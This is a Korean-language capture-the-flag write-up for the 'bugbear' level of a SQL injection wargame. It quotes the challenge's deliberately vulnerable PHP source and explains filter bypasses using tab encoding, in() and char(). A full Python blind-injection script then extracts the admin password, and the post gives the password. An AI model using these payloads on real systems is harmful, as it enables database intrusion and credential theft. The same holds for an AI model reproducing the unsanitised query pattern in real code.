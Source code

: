 ```yaml
---
layout: post
title: ! "[LOS] bugbear"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - bugbear
  - write-up
---
```


![]({{ site.baseurl }}/assets/posts/los/bugbear.png)

`query : select id from prob_bugbear where id='guest' and pw='' and no=`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

bugbear 문제에서는 darknight문제와 비교하여 =,like,0x,공백이 추가 되었다.
다른 분들의 darknight 풀이를 보니 hex값을 이용하신 분들도 꽤 계셔서 0x 필터링이 생긴 것 같다.

1. 공백 -> %09
2. =,like -> in() 함수
3. 0x -> char() 함수

=과 like를 우회하기 위해 >,< 도 사용한다고 하여 < 를 이용해 패스워드의 길이를 구해보았다.

![]({{ site.baseurl }}/assets/posts/los/bugbear_admin.png)

### 코드
```php
from requests import get
import string
from time import sleep

url ="https://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php"
cookies = dict(PHPSESSID="qsm0jdsh94pdsd6rc0ej0espg0")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?pw=1&no=1||length(pw)<"+str(i)
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is "+str(i))
        break
for i in range(1, length):
    for a in range(48,128):
        parameter ="?pw=1&no=1||id%09in(char(97,100,109,105,110))%26%26mid(pw,"+str(i)+",1)%09in(char("+str(a)+"))"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> "+chr(a))
            result += chr(a)
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is "+result)
        print("\n")
```

저번 코드와 달라진 점이라면 길이를 구하는 부분과 char(~) 함수를 in() 으로 감싸준 것과 공백을 %09로 바꾼 것이다.

![]({{ site.baseurl }}/assets/posts/los/bugbear_result.png)

결과에서 패스워드의 길이가 9로 나온 이유는 length(pw)<9 를 했을 때 Hello admin이 떴기 때문에 9가 뜬 것이다.
원래 패스워드의 길이는 8이다.
마찬가지로 위 결과에서 알파벳을 소문자로 바꿔주고 `?pw=735c2773` 를 해주면 된다.

![]({{ site.baseurl }}/assets/posts/los/bugbear_clear.png)

